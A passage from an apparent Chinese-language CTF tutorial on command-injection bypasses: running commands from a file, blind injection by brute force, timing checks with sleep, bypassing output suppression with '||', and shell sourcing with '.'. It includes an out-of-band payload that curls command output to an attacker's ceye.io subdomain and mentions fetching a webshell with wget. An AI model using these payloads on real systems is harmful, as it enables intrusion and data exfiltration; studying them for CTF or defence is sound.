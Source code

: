 执行`sh getflag`命令，从 getflag 文件中读取命令来执行

```
[root@localhost test]# sh getflag
getflag:行1: getflag: 未找到命令
12345 you get it
getflag:行7: flag.php: 未找到命令
```

另外，长度限制绕过也可用于反弹 shell 命令和`wget 网址 -O webshell.php`命令

2、命令盲注
------

### 2.1 暴力查询

服务器未联网，无回显，无法利用自己总结的无回显命令执行，无写入权限和无法 getshell 等情况下，可以通过枚举 / 二分查找暴力查询 flag。

### 2.2 带外盲注

适用于页面无回显的情况。

例如把 whoami 执行的结果输出到 ceye 网站上，`ff34r0.ceye.io`为自己的域名地址。

ceye 网站：[https://sso.telnet404.com/cas/login](https://link.zhihu.com/?target=https%3A//sso.telnet404.com/cas/login)

```
127.0.0.1&curl `whoami`.ff34r0.ceye.io
```

### 2.3 sleep() 妙用

通过 sleep() 函数判断我们的命令是否执行成功。

```
ls;sleep(5);
```

### 2.4 >/dev/null 2>&1 类无回显

代码中插入了`>/dev/null 2>&1`，`>/dev/null 2>&1`的作用就是不回显。利用分隔符`||`即可绕过，分隔符的含义是前一条命令执行失败了才会执行后一条命令。

```
ls || >/dev/null 2>&1
```

3、无字母数字 webshell
----------------

`.`或者叫 period，它的作用和 source 一样，就是用当前的 shell 执行一个文件中的命令。比如，当前运行的 shell 是 bash，则`. file`的意思就是用 bash 执行 file 文件中的命令。用. file 执行文件，是不需要 file 有 x 权限的。

```
[root@localhost home]# cat flag.php
[root@localhost home]
[root@localhost home]# cat a.txt
cat flag.php
[root@localhost home]
[root@localhost home]# . /home/a.txt
```

4、无字母数字 RCE
-----------

利用异或、或、取反等操作进行绕过